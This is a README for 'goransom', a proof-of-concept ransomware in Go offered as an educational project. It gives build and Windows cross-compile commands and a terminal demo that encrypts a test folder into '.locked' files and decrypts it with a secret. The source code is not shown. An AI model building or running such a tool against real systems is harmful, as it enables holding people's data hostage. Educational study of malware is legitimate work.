 # goransom

![](thief_gopher.jpg)

This is a proof of concept for a simple ransomware written in Go. The purpose of this project is purely educative: I wrote `goransom` to get familiar with the language, this also means that the code is poorly written and organized.

**DO NOT USE THIS ON SYSTEMS WHERE YOU DON'T HAVE THE PERMISSION OF THE OWNER**

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ go build goransom.go
```

This will create an executable called `goransom`. You can then run the executable with the following flags:
- `-target`, to specify a folder or a file to encrypt/decrypt. If it's a directory, all the files contained in the given folder will be encrypted/decrypted.
- `-secret`, to specify the secret which is used to derive the key for the encryption/decryption.
- `-decrypt`, to be specified if we want to decrypt a file or a folder.

If you are building it for Windows on Linux, use:

```
$ GOOS=windows GOARCH=386 go build -o goransom.exe goransom.go
```

But be careful, Windows defender does not like goransom:

![](windows_def.png)


### Example

```
$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME

$ ./goransom -secret supersecret -target testfolder
Operating on testfolder
Operating on testfolder/testfile

$ tree
.
├── goransom
└── testfolder
    └── testfile.locked

$ cat testfolder/testfile.locked
�C4�w��i�G⛘]+�~O(�@f1
                     �<
                       �0k><�ZlEV&yj��;)�[1m%

$ ./goransom -secret supersecret -target testfolder -decrypt
Operating on testfolder
Operating on testfolder/testfile.locked

$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME
```

